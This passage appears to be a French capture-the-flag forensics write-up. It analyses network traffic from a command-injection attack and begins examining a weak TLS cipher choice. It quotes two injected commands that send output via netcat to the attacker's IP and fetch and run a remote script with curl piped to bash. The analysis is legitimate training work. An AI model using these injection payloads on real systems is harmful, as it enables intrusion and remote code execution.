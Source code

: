 > 127.0.0.1; id | nc 172.17.0.1 12345

Et cette injection de commande a l'air d'avoir fonctionné : 

![](https://i.imgur.com/qhUtVxO.png)

### Exploitation de l'attaquant

L'attaquant semble executer un script en mémoire : 

![](https://i.imgur.com/enqXS1Y.png)

> 127.0.0.1 ; curl -k https://172.17.0.1/a.sh | bash

Bien entendu ce site n'est pas accessible il n'est pas possible de récupérer le script __a.sh__. Les stream tcp suivant (85667 / 85668) doit être le téléchargement wget via https.
Une différence intéressante réside dans le changement de port entre le stream 85668 (port 443 sur l'ip de l'attaquant) et le stream 85669 (port 8443 sur l'ip de l'attaquant).
Vu la tete des paquets TCP, on peut se douter que c'est du TLS : 

![](https://i.imgur.com/qf2PUmz.png)

Donc un peu de configuration wireshark pour le dissector TLS fasse son travail sur le port 8443, il faut modifier la config du HTTP : 

![](https://i.imgur.com/Akz19kF.png)

Finalement on voit bien un "Client Hello" sur le port 8443 : 

![](https://i.imgur.com/2Eu7hko.png)

Avant de passer à la suite, on a pu déterminer que l'exploitation a commencé au stream tcp 85664, soit le paquet 183387. On va appliquer un filtre pour masquer tous les paquets d'avant et enregistrer ce nouveau pcap. Ce sera plus simple à manipuler qu'un pcap de 35 Mo. Le filtre wireshark : 

> (frame.number >= 183387) && (ip.addr == 172.17.0.1 && ip.addr == 172.17.0.5)

Et "File > Exported Selected Packet"

![](https://i.imgur.com/Pozr7nJ.png)

On passe de 185701 paquets à 2077, ce qui est plus confortable.

### Crypto attack

#### Trouver la vuln

On récupère le "Server Hello" de la connexion sur le port 443 et 8443. Première chose intéressante, les "issuer": 

![](https://i.imgur.com/lCiec87.png)

Référence à "Prime Minister" dans les deux. De plus, malgrés les suites de chiffrement safe proposées par le client, le serveur a décidé d'utiliser une suite n'utilisant pas Diffie Hellman: 
